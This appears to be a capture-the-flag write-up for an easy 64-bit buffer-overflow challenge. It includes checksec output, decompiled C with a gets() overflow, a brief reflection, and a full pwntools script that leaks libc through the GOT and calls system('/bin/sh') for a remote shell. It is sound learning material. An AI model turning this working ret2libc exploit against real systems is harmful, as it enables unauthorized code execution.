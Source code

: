 
`checksec --file=vuln `

| RELRO           | STACK CANARY      | NX            | PIE             | RPATH      | RUNPATH      | Symbols    | FORTIFY | Fortified | Fortifiable | FILE   |
|-----------------|-------------------|---------------|-----------------|------------|--------------|------------|---------|-----------|-------------|--------|
| Partial RELRO   | No canary found    | NX enabled    | No PIE          | No RPATH   | No RUNPATH   | 68 Symbols | No      | 0         | 2           | vuln   |


`file `vuln: 

`ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=05edff4a2422f4bf07ee989dc914de19b50908ad, for GNU/Linux 3.2.0, not stripped`

#easy #ret2libc #Buffer-overflow #GOT-leak

#### tools
[[gdb-pwndbg]]
[[ghidra]]
[[Ropper]]

## Simple buffer overflow GOT leak ret2libc

https://book.hacktricks.xyz/binary-exploitation/rop-return-oriented-programing/ret2lib/rop-leaking-libc-address

NX Enabled so we've got to use libc - No pie enabled so should make it easier. We can leak puts or fgets using a rop gadget to then find out the libc base and following that, call system with the `/bin/sh` argument to pop a shell and cat the flag.

### Reflection
This was one of the more difficult challenges i managed to solve with the help of the hack tricks book linked above. The concept of using a `pop rdi, ret;` to first put the address of a GOT function in `rdi` and call puts to leak the address is new to me but quite intuitive. It was a fairly simple process to modify the code to work with this challenge though it took me some time to work out how to leak `fgets` instead of puts to narrow down the `libc` version which allowed the exploit to work remotely.

### Decompiled with Ghidra:

```
undefined8 main(void)

{
  char local_108 [256];
  
  puts("--- IO DEMOS ---");
  puts("1. gets/puts");
  call_gets();
  puts(local_108);
  puts("2. fgets/fputs");
  fgets(local_108,0x100,stdin);
  fputs(local_108,stdout);
  return 0;
}

void call_gets(void)

{
  char *in_RDI;
  
  gets(in_RDI);
  return;
}

```


```
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)
  
# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'
# libc = ELF('./libc.so')
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc = ELF('./libc6_2.35-0ubuntu3.5_amd64.so')

def get_addr(func_name):
    FUNC_GOT = elf.got[func_name]
    log.info(func_name + " GOT @ " + hex(FUNC_GOT))
    # Create rop chain
    rop1 = OFFSET + p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)
    #Send our rop-chain payload
    #p.sendlineafter("dah?", rop1) #Interesting to send in a specific moment
    print(io.clean()) # clean socket buffer (read all and print)
    io.sendline(rop1)
    io.recvline()
    io.recvline()
    io.sendline(b"a")
    io.recvline()
    #Parse leaked address
    recieved = io.recvline().strip()
    print("RECVD: ", recieved)
    leak = u64(recieved.ljust(8, b"\x00"))
    log.info("Leaked libc address,  "+func_name+": "+ hex(leak))
    #If not libc yet, stop here
    if libc != "":    
        libc.address = leak - libc.symbols[func_name] #Save libc base
        log.info("libc base @ %s" % hex(libc.address))
    return hex(leak)
  

io = start()

OFFSET = b"a" * 264

rop = ROP('./vuln')
PUTS_PLT = elf.plt['puts'] #PUTS_PLT = elf.symbols["puts"] # This is also valid to call puts

MAIN_PLT = elf.symbols['main']
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0] #Same as ROPgadget --binary vuln | grep "pop rdi"

RET = (rop.find_gadget(['ret']))[0]
log.info("Main start: " + hex(MAIN_PLT))
log.info("Puts plt: " + hex(PUTS_PLT))
log.info("pop rdi; ret  gadget: " + hex(POP_RDI))

print("LEAKED ", get_addr("puts"))
system = libc.symbols['system']
binsh = next(libc.search(b'/bin/sh'))
io.recvline()
io.recvline()
print(io.clean())
io.sendline(OFFSET+p64(RET)+p64(POP_RDI)+p64(binsh)+p64(system))
print("Recvd ", io.recvline())

# Get flag/shel
io.interactive()
```